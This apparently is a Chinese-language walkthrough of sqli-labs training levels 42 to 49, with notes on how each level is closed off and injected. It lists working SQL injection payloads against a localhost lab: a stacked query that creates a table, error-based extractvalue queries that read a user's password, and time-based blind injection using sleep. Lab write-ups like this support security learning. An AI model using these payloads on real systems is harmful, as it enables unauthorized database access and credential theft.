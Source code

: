 ***

**Less-42**

post注入，查看源码发现uname进行了过滤，故对passwd进行注入

passwd：
`a';create table ooo like users;`

***

**Less-43**

同Less-42，闭合为('$id')

***

**Less-44**

单引号闭合，无报错回显，同Less-42

***

**Less-45**

同Less-43，无报错回显

***

**Less-46**

order by注入

参数提交?sort=1 desc/?sort=1 asc，如果返回结果不同则可以进行注入。rand(true)与rand(false)返回结果不同，可以进行基于布尔的注入。还可以?sort=1 and [payload]进行报错注入或延时注入

报错注入payload：
`http://127.0.0.1/sqli/Less-46/?sort=1 and extractvalue(1,concat(0x25,(select password from users where id=3)))`

***

**Less-47**

sort参数变为字符型，前闭合后注释就ok

`http://127.0.0.1/sqli/Less-47/?sort=1' and extractvalue(1,concat(0x25,(select password from users where id=3)))--+`

***

**Less-48**

这一关无报错回显，使用延时注入

`http://127.0.0.1/sqli/Less-48/?sort=1 and if(mid(database(),1,1)='s',sleep(5),1)--+`

***

**Less-49**

同Less-47，无报错回显，延时注入
